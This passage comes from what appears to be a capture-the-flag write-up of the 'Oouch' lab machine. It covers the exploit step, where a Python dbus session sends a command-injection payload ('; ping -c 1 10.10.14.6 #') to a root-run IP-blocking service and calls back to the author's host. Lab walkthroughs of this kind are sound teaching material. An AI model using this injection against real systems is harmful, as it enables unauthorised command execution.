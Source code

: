 

In the middle of that route, it checks the input data against the
`primitive_xss` search, and if it matches, it uses `dbus` to send the
client IP and then closes the connection, returning the Hacker page.

I know when this happens, I'm blocked from communicating with Oouch for
a minute, and the note earlier suggested it was via IP tables.

### Exploit

I'm going to hypothesize that the dbus server is receiving IPs and
running an `iptables` command to block it, and that I might be able to
do command injection if it is not handling that input correctly.

I opened a local Python shell and used the commands in the web-app as a
template. `import dbus` fails, until I set the path like in the app, and
then it works:



    www-data@aeb4525789d8:/code$ python
    Python 3.7.6 (default, Feb  2 2020, 09:11:24) 
    [GCC 8.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import dbus
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
    ModuleNotFoundError: No module named 'dbus'
    >>> import sys                                          
    >>> sys.path.insert(0, "/usr/lib/python3/dist-packages")
    >>> import dbus



Now I'll create a `bus` object, and set the interface.



    >>> bus = dbus.SystemBus()
    >>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
    >>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')



For a payload, I'll see if I can just append a `ping`:



    >>> client_ip = '; ping -c 1 10.10.14.6 #'



With `tcpdump` listening, I'll submit it:



    >>> response = block_iface.Block(client_ip)
    >>> response
    dbus.String('Carried out :D')
    >>> bus.close()

